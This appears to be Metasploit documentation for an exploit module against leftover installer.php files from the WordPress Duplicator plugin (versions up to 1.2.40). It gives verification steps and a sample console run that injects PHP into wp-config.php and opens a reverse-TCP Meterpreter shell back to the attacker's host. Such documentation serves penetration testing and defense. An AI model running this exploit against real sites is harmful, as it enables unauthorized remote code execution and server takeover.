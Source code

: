 Duplicator is a WordPress plugin that can be used to create a complete backup of a WordPress instance and restore it on a fresh server. The export method generates 2 files:
* An ZIP archive with the complete WordPress files and Duplicator specific files:
  * A copy of the installer.php script: installer-backup.php
  * A SQL script that will be used to restore the database content: database.sql
* An installer PHP script to restore the archive installer.php

When the installer.php completes its process, the following files remain in the directory and has to be manually deleted:
* The ZIP archive
* database.sql 
* installer-backup.php 
* installer-data.sql 
* installer-log.txt 
* installer.php 

## Vulnerable application

Install a vulnerable version of WordPress Duplicator (<= 1.2.40) and create a backup.
Put the install.php and archive files on a clean web server.

## Verification Steps


Confirm that check functionality works:
- [ ] Open a browser to check the installer.php file is accessible
- [ ] Start `msfconsole`
- [ ] `use exploit/multi/php/wordpress_duplicator-`
- [ ] Set the `RHOST`.
- [ ] Confirm the target is vulnerable: `check`
- [ ] Confirm that the target is vulnerable: `The target is vulnerable.`

Confirm that command execution functionality works:
- [ ] Set a payload: `set PAYLOAD php/meterpreter/reverse_tcp`
- [ ] Set `LHOST` and `LPORT`
- [ ] Run the exploit: `run`
- [ ] Confirm you have now a meterpreter session

## Options

**TARGETURI**

The path to the installer.php file to exploit By default, the path is `/installer.php`.


## Scenarios

### Meterpreter reverse tcp

```
msf5 > use exploit/multi/php/wordpress_duplicator 
msf5 exploit(multi/php/wordpress_duplicator) > set RHOSTS 192.168.56.101
RHOSTS => 192.168.56.101
msf5 exploit(multi/php/wordpress_duplicator) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf5 exploit(multi/php/wordpress_duplicator) > set TARGETURI /installer_vuln.php
TARGETURI => /installer_vuln.php
msf5 exploit(multi/php/wordpress_duplicator) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Checking if the wp-config.php file already exists...
[*] This WordPress was not restored. Creating the wp-config.php file...
[*] Successfully created the wp-config.php file!
[*] All good! Injecting PHP code in the wp-config.php file...
[*] Requesting wp-config.php to execute the payload...
[*] Sending stage (37775 bytes) to 192.168.56.101

meterpreter > sysinfo 
Computer    : debian
OS          : Linux debian 4.9.0-6-amd64 #1 SMP Debian 4.9.88-1+deb9u1 (2018-05-07) x86_64
Meterpreter : php/linux
```

